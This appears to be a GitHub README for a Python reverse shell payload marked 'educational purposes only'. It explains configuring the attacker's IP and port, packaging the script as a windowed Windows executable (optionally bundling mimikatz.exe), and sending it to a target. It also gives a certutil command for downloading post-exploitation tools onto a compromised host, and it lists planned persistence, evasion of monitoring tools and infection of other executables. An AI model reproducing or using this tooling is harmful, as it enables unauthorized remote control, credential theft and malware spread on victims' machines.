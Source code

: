 # Reverse Shell Using Python
Reverse shell payload only using python
= EDUCATIONAL PURPOSES ONLY =

# Usage:

Replace in the python file the ip and port of your netcat reverse shell server.
```py
def main():
    server_ip = '127.0.0.1'  # Replace with the server's IP address
    server_port = 9001       # Replace with the same port number used on the server
```


Then using auto_py_to_exe or py_to_exe make it an executable. Note that this did not work on kali linux for me.
```
pip install auto-py-to-exe
python -m auto_py_to_exe
```

Select the `Script Location`, then choose `One file`, then choose `window based`. Add an icon if you want, or extra files like mimikatz.exe embedded into it (requires your own code). Then `Convert .py to .exe`. Open the folder you were in when u typed `python -m auto_py_to_exe` and go into `output`, in this folder you will find your exe file.

Now, just send it to your other machine. 
`Note that this is not obfuscated or made to be used with any tunnel to hide the server's ip.`


# Post-exploitation:

After gaining access to your target, you can use `certutil` (`certutil -urlcache -split -f https://www.example.com/example.zip C:\path\to\file`, it being located in the system32 folder) or the embedded `--wget` function of the rs.py to download post-exploitation tools like priviledge exploitation with `mimikatz.exe`.

# Future plans:
- Once ran, automatically add to boot menu
- Every 1 minute try to connect to server machine, if not connected
- If process explorer, wireshark or other are detected, it enters in a hibernation stage for 1 hour, then it tries the connecting again
- If ran with administrator perms, it will infect other .exe files
